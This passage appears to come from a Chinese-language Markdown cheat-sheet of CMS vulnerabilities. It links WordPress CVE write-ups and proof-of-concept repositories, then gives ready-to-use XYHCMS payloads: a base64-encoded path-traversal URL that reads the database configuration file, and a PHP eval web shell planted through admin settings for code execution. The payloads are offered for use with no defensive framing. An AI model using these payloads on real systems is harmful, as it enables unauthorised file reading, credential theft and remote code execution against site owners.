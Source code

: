 **WordPress <= 5.3.? DoS**
- POC | Payload | exp
    - [wordpress-dos-poc](https://github.com/roddux/wordpress-dos-poc)

**CVE-2022-21661 WP_Query SQLinj**
- 相关文章
    - [SQL Injection in Wordpress core (CVE-2022-21661)](https://cognn.medium.com/sql-injection-in-wordpress-core-zdi-can-15541-a451c492897)
    - [CVE-2022-21661 WordPress核心框架WP_Query SQL注入漏洞原理分析与复现](https://mp.weixin.qq.com/s/-rCsc_y04wxUhXdGH8mR_g)
    - [CVE-2022-21661: EXPOSING DATABASE INFO VIA WORDPRESS SQL INJECTION](https://www.zerodayinitiative.com/blog/2022/1/18/cve-2021-21661-exposing-database-info-via-wordpress-sql-injection)

**CVE-2022-21662 WordPress 5.8.2 Stored XSS Vulnerability**
- 相关文章
    - [WordPress 5.8.2 Stored XSS Vulnerability](https://blog.sonarsource.com/wordpress-stored-xss-vulnerability)
    - [CVE-2022-21662 WordPress核心框架存储型XSS漏洞分析与复现](https://mp.weixin.qq.com/s/uvWOBoYSsh1CteAsEyqBPg)

**插件漏洞**
- **WordPress Plugin Mail Masta 1.0 - Local File Inclusion**
    - https://www.exploit-db.com/exploits/40290

---

### XYHCMS

> 官网 : http://www.xyhcms.com/

**相关文章**
- [xyhcms漏洞整理](https://h3art3ars.github.io/2020/01/27/xyhcms%E6%BC%8F%E6%B4%9E%E6%95%B4%E7%90%86/)
- [cms通用漏洞之表达式&系统函数](https://mp.weixin.qq.com/s/GSuyIcfXnvajAujIrtcQAg)
- [xyhcms v3.6 命令执行](https://xz.aliyun.com/t/7756)

**后台任意文件读取**
- POC | Payload | exp
    ```
    http://127.0.0.1/xyhai.php?s=/Templets/edit/fname/Li5cXC4uXFwuLlxcQXBwXFxDb21tb25cXENvbmZcXGRiLnBocA==
    ```

**CNVD-2020-03899 后台文件写入导致代码执行漏洞**
- POC | Payload | exp
    ```
    后台,系统设置->网站设置->会员配置->禁止使用的名称
    <?eval($_POST['cmd'])?>
    http://localhost/App/Runtime/Data/config/site.php
    ```

**后台文件写入导致代码执行漏洞2**
- POC | Payload | exp
    ```
    后台,系统设置->网站设置,任意设置,在输入框内填 <?php phpinfo()?>
    http://localhost/App/Runtime/Data/config/site.php
    ```

